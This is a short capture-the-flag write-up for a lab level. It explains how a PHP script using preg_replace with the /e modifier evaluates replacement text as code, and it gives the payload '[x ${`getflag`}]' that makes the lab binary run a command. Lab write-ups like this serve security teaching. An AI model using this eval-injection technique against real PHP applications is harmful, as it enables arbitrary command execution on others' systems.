 ## STEPS

### 1. Initial Investigation:
In the home directory, I found two files: a PHP script named level06.php and its corresponding binary called level06.
The PHP script contains the following code:

```
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; 
}
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

- The y($m) function replaces periods (.) with " x " and @ symbols with " y ".
- The x($y, $z) function reads the contents of a file specified by $y, replaces occurrences of [x ...] with the result of applying the y($m) function to the inner content , and returns the modified content.
- Finally, the script reads two command-line arguments ($argv[1] and $argv[2]), passes them to the x() function, and prints the result.

Understanding the script's functionality, I realized that the /e modifier in the preg_replace function allows for the evaluation of the replacement string as PHP code. This presents an opportunity for command execution.

I created a file in /tmp named payload.txt with the content **[x ${getflag}]**
```
echo '[x ${`getflag`}]' > /tmp/payload.txt
```

This payload will be passed as the first argument to the PHP script. The **${`getflag`}** expression executes the getflag command.

### 2.Executing the Payload::
With the payload crafted, I executed the binary level06 with */tmp/payload.txt* as the first argument and any second argument (as it is not used by the script). This caused the script to execute the getflag command and print the flag.

![alt text](level06.png)